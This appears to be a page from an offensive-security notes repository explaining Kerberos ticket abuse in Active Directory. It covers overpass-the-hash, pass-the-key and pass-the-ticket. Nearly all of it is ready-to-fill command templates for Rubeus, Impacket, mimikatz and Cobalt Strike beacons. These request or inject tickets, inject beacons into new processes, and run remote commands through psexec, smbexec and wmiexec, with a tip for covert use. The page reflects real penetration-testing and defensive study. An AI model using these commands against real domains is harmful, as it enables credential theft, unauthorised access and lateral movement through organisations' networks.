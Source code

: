 # Active Directory - Kerberos tickets usage

### Overview

`Kerberos` is an authentication protocol used within Active Directory that rely
on the use of tickets to identify users and grant access to domain resources.
To do so, `Kerberos` implements two type of tickets, issued by two distinct
services of the `Key Distribution Center (KDC)`:
  - `Ticket-Granting Ticket (TGT)`, obtained from the `Authentication Service
  (AS)`.
  - `service tickets`, obtained from the `Ticket-Granting Service (TGS)`.

A valid `TGT` is necessary in order to request `service tickets`, which in turn
grant access to service accounts (user or machine domain accounts that have a
`ServicePrincipalName (SPN)`).

`Overpass-the-hash` / `Pass the Key (PTK)` are the actions of using,
respectively, the `NTLM` hash or the `Kerberos` secrets (`RC4` key,
corresponding to the `NTLM hash`, or the `AES 128/256 bits` keys) of an user to
request a `Kerberos` `TGT`.

`Pass-the-ticket (PtT)` is the action of directly using `Kerberos` tickets
(`TGTs` or `service tickets`) with out a request to the `KDC`. On Windows
systems, the tickets can be directly injected in the current logon session
while on Linux systems `Kerberos` tickets file can be provided to utilities
supporting the `Kerberos` authentication.

### Overpass-the-hash / Pass the Key (PTK)

The `Rubeus`'s `asktgt` module or the `Impacket`'s `getTGT.py` Python script
can be used to request `TGTs` using an user's password, `NTLM` hash, or
`Kerberos` secrets.

```
# ptt: Directly injects the received TGT in the current logon session. The current logon session TGT will be overwritten.
# In any case, the received TGT, encoded in base64, will be printed (KRB-CRED format).
Rubeus.exe asktgt /user:<USERNAME> [/password:<PASSWORD> | /rc4:<NTLM_HASH> | /aes128:<AES_128BITS_KEY> | /aes256:<AES_256BITS_KEY>] /ptt
Rubeus.exe asktgt /dc:<DC_IP | DC_HOSTNAME> /domain:<DOMAIN> /user:<USERNAME> [/password:<PASSWORD> | /rc4:<NTLM_HASH> | /aes128:<AES_128BITS_KEY> | /aes256:<AES_256BITS_KEY>] /ptt

# The received TGT will be exported to a file in the credential cache format.
python getTGT.py [-dc-ip <DC_IP>] <DOMAIN>/<USERNAME>:[<PASSWORD>]
python getTGT.py [-dc-ip <DC_IP>] -hashes ":<NTLM>" <DOMAIN>/<USERNAME>
# Recommended if possible in a covert scenario, as the AES keys are used by default by Microsoft.
python getTGT.py [-dc-ip <DC_IP>] -aesKey <AES_128BITS_KEY | AES_256BITS_KEY> <DOMAIN>/<USERNAME>
```

### Pass-the-ticket (PtT)

###### [Windows / Linux] Direct requests of service tickets

On Windows, the `Rubeus`'s `asktgs` module can be used to request `service
tickets` using a valid `TGT`:

```
# ptt: Directly injects the received service ticket in the current logon session.

Rubeus.exe asktgs /ticket:<TGT_BASE64 | TGT_KIRBI_FILE_PATH> /service:<TARGET_SERVICE_SPN | TARGET_SERVICES_SPN> /ptt
```

###### [Windows] Injection into the current session

`Kerberos` tickets, in the credential format `KRB_CRED` (`KIRBI` file), can be
injected into the current logon session using `mimikatz` or `Rubeus`.

Both utilities leverage the Windows
`LsaCallAuthenticationPackage/KerbSubmitTicketMessage` API and will overwrite
the current logon session tickets.

```
# If necessary, decodes a ticket in base64 (from Rubeus for example) to the KRB_CRED format.
cat <TICKET_BASE64_FILE_PATH> | tr -d "[:space:]" | base64 --decode > <TICKET_KIRBI_FILE_PATH>

# Injects into memory a ticket in the KRB_CRED format.
Rubeus.exe ptt /ticket:<TICKET_BASE64 | TICKET_BASE64_FILE_PATH | TICKET_KIRBI_FILE_PATH>
mimikatz.exe "kerberos::ptt <TICKET_KIRBI_FILE_PATH>" exit
```

`Cobalt Strike` 's `make_token` and `kerberos_ticket_use` `beacon` commands may
be used to inject tickets with out overwriting the ones cached in the current
logon session:

```
# Requires elevated privileges.
beacon> make_token <DOMAIN>\<USERNAME> "PasswordNotRequired"
beacon> kerberos_ticket_use <C2_TICKET_KIRBI_FILE_PATH>

# Does not requires a elevated privileges. Create a new beacon in a sacrificial process to protect the current beacon logon session tickets.
# The use of the make_token command is still necessary as both beacon share the same logon session.
original_beacon> make_token <DOMAIN>\<USERNAME> "PasswordNotRequired"
original_beacon> run <C:\Windows\System32\cmd.exe | BINARY_PATH>
original_beacon> ps
original_beacon> inject <NEW_PROCESS_PID> <x86 | x64> <LISTENER>
new_beacon> kerberos_ticket_use <C2_TICKET_KIRBI_FILE_PATH>

# Reverts the logon session created using the make_token command, so the original logon session's tickets are restored.
beacon | original_beacon> rev2self
```

The `Kerberos` tickets cached in the current logon session can be listed using
the Windows built-in `klist` utility, `Rubeus`'s `klist` module, or
`mimikatz`'s `kerberos::list` command:

```
klist

Rubeus.exe klist

mimikatz.exe "kerberos::list" exit
mimikatz.exe "kerberos::list /export" exit
```

###### [Linux] Credential cache (ccache)

`Kerberos` tickets can be converted from the `KRB_CRED` format to the
`credential cache (ccache)` format to be used with, among others, the
`Impacket`'s Python utilities. If a `TGT` is provided, the `Impacket`'s
utilities will try to obtain the necessary service tickets through request to
the `KDC`.

Note that `impackets` utilities can only make use of a single `Kerberos
tickets` at a time, which limits the possible usage of the utilities with
`service tickets`.

Refer to the `[Windows] Lateral movements` for more information on how to
leverage the `Impacket` suite for lateral movements in a Windows environment.

```
# If necessary, decodes a ticket in base64 (from Rubeus for example) to the KRB_CRED format.
cat <TICKET_BASE64_FILE_PATH> | tr -d "[:space:]" | base64 --decode > <TICKET_KIRBI_FILE_PATH>

# If necessary, converts the TGT from KRB_CRED to ccache.
ticketConverter.py  <TICKET_KIRBI_FILE_PATH> <TICKET_CCACHE_FILE_PATH>

# Loads the ticket from the specified file.
export KRB5CCNAME=<TICKET_CCACHE_FILE_PATH>

# Loads all the tickets in the specified directory. The tickets filename must follow the filename tkt*.
# Unfortunately loading Kerberos tickets from a directory is not a wildy supported feature.
export KRB5CCNAME=DIR:<TICKETS_CCACHE_DIR_PATH>

# Usage of the TGT through Impacket's utilities.
psexec.py -k -no-pass -dc-ip <DC_IP> <HOSTNAME> [<COMMAND> <COMMAND_ARGS>]
smbexec.py [-service-name <SERVICE_NAME>] -k -no-pass -dc-ip <DC_IP> <HOSTNAME> [<COMMAND> <COMMAND_ARGS>]
wmiexec.py [-service-name <SERVICE_NAME>] -k -no-pass -dc-ip <DC_IP> <HOSTNAME> [<COMMAND> <COMMAND_ARGS>]
[...]
```

The `klist` utility form the `krb5-user` (`Debian` based distro) or `krb5`
package may be used to list the current tickets:

```
klist -A
```
